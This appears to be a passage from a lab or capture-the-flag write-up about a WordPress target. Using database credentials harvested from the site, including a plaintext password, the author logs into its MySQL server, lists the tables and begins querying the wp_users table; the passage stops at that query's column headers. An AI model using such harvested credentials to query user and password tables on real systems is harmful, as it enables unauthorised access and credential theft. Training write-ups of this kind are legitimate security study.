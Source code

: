This section is not at all necessary to read and I'm just adding it for curiosities sake.

I was curious about the MySQL server that **Wappalyzer** showed us earlier on and dug around that for a little while. It didn't yield much other than showing us the same information from the logged in website admin console, but in case you were also curious here's what I found:

```
Database info

Name: wordpress567
Username: wordpressuser567
Database password: YSPgW[%C.mQE

C:\Users\Wade\Downloads>mysql -h localhost -D wordpress567 -u wordpressuser567 -p
Enter password: ************
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 5.1.73-community MySQL Community Server (GPL)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress567       |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wordpress567
Database changed

mysql> show TABLES;
+------------------------+
| Tables_in_wordpress567 |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+
12 rows in set (0.00 sec)

mysql> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+---------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email                | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------------+----------+---------------------+---------------------+-------------+--------------+
```